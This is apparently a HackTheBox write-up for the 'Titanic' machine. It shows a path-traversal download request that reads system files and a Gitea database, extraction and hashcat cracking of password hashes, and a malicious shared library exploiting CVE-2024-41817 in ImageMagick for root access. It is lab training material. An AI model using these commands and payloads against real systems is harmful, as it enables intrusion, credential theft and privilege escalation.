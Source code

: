 
2025-03-19 22:57

Source: #htb #Boot2root 

rustscan shows port 80 and 22

add to `etc/hosts` 
```sh
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```
### Enumeration

The website only has one button that is interactable i.e. validate trip. When we validate a trip, we download the ticket 

The request when captured on burp looks like 
```
GET /download?ticket=random-int.json HTTP/1.1
```
since the ticket reading functionality is not implemented securely, [[LFI]] we can replace the name of the ticket file with the one we want to read. For example `/etc/passwd` 

- we see a user named developer
- we can directly read the `user.txt` flag by replacing ticket parameters value to `/home/developer/user.txt`

since ssh key files aren't readable we read the `etc/hosts` and see a subdomain  - `dev.titanic.htb` - 
after adding this to our `etc/hosts` file and visiting the website we see This subdomain has `gitea` on it

browsing around in `gitea` we see an explore tab, it has 2 repos 
From the `docker-compose.yml` file we find out the path to the `gitea` directory

Searching on the web we find that the default config files of `gitea` are stored in `config/app.ini`

Pull out the default config via LFI

```sh
curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'
```

From the configure we find out the path to the database
```sh
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

Open `gitea.db` in SQLite: 
```
sqlite3 gitea.db  
sqlite> .tables  
sqlite> SELECT lower_name, passwd, salt FROM user;
```

We retrieve a hashed password (and salt) for the `developer` user.

The hash can’t be directly cracked by [[Hashcat]],  convert it manually or use [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) script to format it:

```sh
hashcat -m 10900 gitea_hash.txt rockyou.txt
```
### Privesc

[[find]] directories w write perms
```sh
find /opt -writable -type d 2>/dev/null
```

A quick `sudo -l` check reveals no direct sudo privileges. Exploring `/opt`, we find a `scripts` folder containing `identify_images.sh`. Inspecting the file, we see it calls ImageMagick’s `identify` command on uploaded images.

find path to magick and version using 
```
$ which magick
/usr/bin/magick

$ /usr/bin/magick --version
Version: ImageMagick 7.1.1-35
```

There is a matching CVE-2024-41817 under this version that allows arbitrary code execution by loading malicious shared libraries into the current working directory when running `ImageMagick`: [Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

From identify_images.sh we know that the directory we need is /opt/app/static/assets/images/. Let’s create a library that will copy the /root/root.txt file and change its permissions:

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

After a few seconds, a flag will appear in the directory
### References
https://app.hackthebox.com/machines/648
https://www.pentestnotes.ru/en/writeups/hackthebox/titanic-htb-writeup/